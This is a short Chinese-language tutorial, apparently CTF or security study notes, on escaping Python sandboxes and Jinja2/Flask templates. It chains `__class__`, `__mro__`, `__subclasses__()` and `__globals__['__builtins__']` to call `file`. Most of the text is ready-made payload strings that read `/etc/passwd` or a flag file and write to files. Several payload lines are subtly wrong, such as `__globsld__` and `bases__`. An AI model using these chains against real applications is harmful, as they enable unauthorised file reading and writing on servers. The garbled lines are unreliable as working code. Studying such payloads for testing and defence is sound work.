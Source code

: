 	__bases__ 和 __mro__ 都是用来寻找基类的。

#### 基本流程

使用魔术方法进行函数解析，再获取基本类：

```
''.__class__.__mro__[2]
{}.__class__.bases__[0]
[].__class__.bases__[0]
request.__class__.__mro__[8]  //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类object的子类：

```
object.subclasses__()
```

找到重载过的__init__类（在获取初始化属性后，带wrapper的说明没有重载，寻找不带wrapper的）：

```
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

查看其引用 __builtins__

python程序一旦启动，他就会在程序员写的代码没有运行之前就已经被加载到内存中了，而对于builtins却不引用，它在任何模块都直接可见，所以这里直接调用引用的模块。

```
''.__class__.mro[2].__subclasses__()[50].__init__.__globsld__['__builtins__']
```

这里会返回dict类型，寻找keys中可用函数，直接调用即可，使用keys中的file以实现读取文件的功能。

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('d://flag.txt').read()
```

#### 读写文件

读文件：

	''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()

写文件：

	''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write()

存在的子模块可以通过 .index() 来进行查询，如果存在的话返回索引，直接调用即可。

还有另外的方法：

	[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()

写文件换为 .write() 即可。
